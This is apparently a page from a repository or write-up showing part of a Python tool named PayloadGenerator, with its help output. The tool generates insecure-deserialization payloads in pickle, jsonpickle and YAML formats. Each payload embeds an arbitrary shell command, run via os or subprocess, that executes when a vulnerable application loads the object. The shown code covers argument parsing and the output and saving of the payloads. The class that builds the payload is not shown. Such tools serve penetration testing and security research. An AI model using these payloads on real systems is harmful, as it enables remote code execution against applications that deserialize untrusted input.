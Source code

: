 ```python
        '-f', '--format', required=True, choices=["pickle", "json", "yaml", "#"], default="#",
        help='Serialization archive format')
    parser.add_argument(
        '-c', '--command', type=str, required=False, default=None, help='Command for the payload')

    args = parser.parse_args()

    if args.format == "#":
        print(f"[*] The following format are accepted:")
        print_available_formats()
        sys.exit()
    if not args.command:
        print(f"[-] A command (-c) is required to generate the payload")
    command = args.command

    print(f"[+] Generating serialized object for:")
    print(f"    {command}")
    cls = Payload(command, args.vector)

    if args.format == "pickle":
        if args.save:
            with open("payload.bin", "wb") as payload:
                payload.write(_pickle.dumps(cls))
        else:
            print(f"[+] Final Payload:\n    {_pickle.dumps(cls)}")
    elif args.format == "json":
        if args.save:
            with open("payload.json", "w") as payload:
                payload.write(jsonpickle.encode(cls))
        else:
            print(f"[+] Final Payload:\n    {jsonpickle.encode(cls)}")
    elif args.format == "yaml":
        if args.save:
            with open("payload.yml", "w") as payload:
                yaml.dump(cls, payload)
        else:
            p = yaml.dump(cls).replace('\n', '\n    ')
            print(f"[+] Final Payload:\n    {p}")
    else:
        sys.exit()
```

The functions provided by this simple tool can be inspected using the help:

```bash
$ python PayloadGenerator.py -h
usage: PayloadGenerator.py [-h] [-d] [-s] [-v {os,subprocess}] -f {pickle,json,yaml,#} [-c COMMAND]

PayloadGenerator - A simple serialization payload generator

optional arguments:
  -h, --help            show this help message and exit
  -d, --debug           Enable debug messages
  -s, --save            Save payload to file
  -v {os,subprocess}, --vector {os,subprocess}
                        Save payload to file
  -f {pickle,json,yaml,#}, --format {pickle,json,yaml,#}
                        Serialization archive format
  -c COMMAND, --command COMMAND
                        Command for the payload

```

